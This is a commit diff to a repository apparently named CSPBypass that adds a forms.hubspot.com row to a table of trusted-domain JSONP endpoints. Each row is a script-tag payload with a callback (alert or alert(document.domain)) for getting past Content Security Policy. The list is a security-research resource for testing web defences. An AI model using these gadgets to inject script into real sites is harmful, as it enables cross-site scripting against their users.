

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in ….

Commit message:
Added forms.hubspot.com

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -43,2 +43,3 @@ eu.battle.net	<script src="https://eu.battle.net/support/update/json?callback=al
 fast.wistia.com	<script src="https://fast.wistia.com/embed/medias/o75jtw7654.json?callback=alert"></script>	renniepak
+forms.hubspot.com	<script src="https://forms.hubspot.com/embed/v3/form/2059467/2e1a1b5b-27bb-447d-aac4-0b87c1e88fec?callback=alert"></script>	renniepak
 geo.moatads.com	<script src="https://geo.moatads.com/n.js?callback=alert(document.domain)"></script>	renniepak
```
